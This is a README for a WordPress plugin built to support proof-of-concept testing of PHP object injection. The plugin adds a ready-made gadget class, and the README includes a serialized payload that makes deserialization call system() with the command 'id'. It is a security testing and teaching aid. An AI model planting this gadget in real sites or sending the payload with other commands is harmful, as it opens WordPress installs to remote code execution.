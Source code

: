 # WP Object Injection Proof of Concept

This is a simple plugin to help in PoC's of PHP Object Injection in Wordpress.

## How use

First download the **WP-Object-Injection-PoC** plugin on your "wp-content/plugin" directory and then activate in your wordpress dashboard. 

Now you can easily do the PoC of insecure deserialization without worrying about POP chains.

## Payload Example
```php
echo serialize(new ObjectInjection());
// O:2:"OI":2:{s:3:"fcn";s:6:"system";s:3:"cmd";s:2:"id";}
```
## References
- https://www.php.net/manual/en/language.oop5.magic.php
- https://www.php.net/manual/en/function.unserialize.php
- https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf

